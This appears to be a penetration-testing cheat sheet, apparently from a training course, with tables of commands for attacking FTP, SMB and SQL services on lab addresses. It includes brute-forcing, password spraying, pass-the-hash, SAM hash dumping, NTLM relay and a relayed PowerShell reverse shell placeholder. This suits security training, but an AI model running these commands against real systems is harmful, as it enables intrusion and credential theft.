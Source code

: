 | Command | Description |
|---------|-------------|
| `ftp 192.168.2.142` | Connecting to the FTP server using the ftp client. |
| `nc -v 192.168.2.142 21` | Connecting to the FTP server using netcat. |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service. |

## Attacking SMB

| Command | Description |
|---------|-------------|
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using smbmap. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using smbmap. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the rpcclient. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeration of the SMB service using enum4linux-ng. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the impacket-psexec. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using crackmapexec. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using impacket-ntlmrelayx. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using impacket-ntlmrelayx. |

## Attacking SQL Databases

| Command | Description |
|---------|-------------|
| `mysql -u julio -pPassword123 -h 10.129.20.13` | Connecting to the MySQL server. |
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30` | Connecting to the MSSQL server. |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux. |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `mysql> SHOW DATABASES;` | Show all available databases in MySQL. |
| `mysql> USE htbusers;` | Select a specific database in MySQL. |
| `mysql> SHOW TABLES;` | Show all available tables in the selected database in MySQL. |
| `mysql> SELECT * FROM users;` | Select all available entries from the "users" table in MySQL. |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases` | Show all available databases in MSSQL. |
| `sqlcmd> USE htbusers` | Select a specific database in MSSQL. |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES` | Show all available tables in the selected database in MSSQL. |
| `sqlcmd> SELECT * FROM users` | Select all available entries from the "users" table in MSSQL. |